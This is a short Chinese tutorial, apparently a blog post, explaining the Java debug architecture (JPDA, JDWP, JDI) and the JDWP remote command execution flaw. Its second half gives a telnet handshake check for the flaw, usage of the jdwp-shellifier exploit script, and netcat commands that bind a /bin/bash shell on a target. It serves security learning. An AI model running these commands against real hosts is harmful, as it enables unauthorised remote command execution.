 from https://blog.csdn.net/wanzt123/article/details/82793023
# Java 调试体系
JPDA（Java Platform Debugger Architecture）：即Java平台调试体系架构。Java虚拟机设计的专门的API接口供调试和监控虚拟机使用

JPDA按照抽象层次，又分为三层，分别是：

- JVM TI（Java VM Tool Interface）：虚拟机对外暴露的接口，包括debug和profile。
- JDWP（Java Debug Wire Protocol）：调试器和应用之间通信的协议。
- JDI（Java Debug Interface）：Java库接口，实现了JDWP协议的客户端，调试器可以用来和远程被调试应用通信。


# JDWP
JDWP（Java DEbugger Wire Protocol）：即Java调试线协议，是一个为Java调试而设计的通讯交互协议，它定义了调试器和被调试程序之间传递的信息的格式。说白了就是JVM或者类JVM的虚拟机都支持一种协议，通过该协议，Debugger 端可以和 target VM 通信，可以获取目标 VM的包括类、对象、线程等信息，在调试Android应用程序这一场景中，Debugger一般是指你的 develop machine 的某一支持 JDWP协议的工具例如 Android Studio 或者 JDB，而 Target JVM是指运行在你mobile设备当中的各个App（因为它们都是一个个虚拟机 Dalvik 或者 ART），JDWP Agent一般负责监听某一个端口，当有 Debugger向这一个端口发起请求的时候，Agent 就转发该请求给 target JVM并最终由该 JVM 来处理请求，并把 reply 信息返回给 Debugger 端。

# JDWP 远程命令执行漏洞
漏洞验证：

- telnet端口后，输入命令JDWP-Handshake，

如果返回JDWP-Handshake，证明存在漏洞。而且如果输入JDWP-Handshake的速度不够快的话，连接很快就会断开。

- telnet 目标IP 目标端口

漏洞利用脚本：https://github.com/IOActive/jdwp-shellifier

使用方法：

- python jdwp-shellifier.py -t 目标主机ip -p jdwp运行端口 --cmd "Your Command"

比如我们可以执行一个反弹shell的命令：

漏洞利用过程如下：

攻击者主机上执行监听命令：
- nc -lvvp 1234

被攻击的目标主机上执行命令：
- python jdwp-shellifier.py -t 127.0.0.1 -p 8000 --cmd "ncat -lvvp 1234 -e /bin/bash"

>注：nc反弹shell有好几种方法，请根据具体情况进行修改，也可用其他方式反弹shell。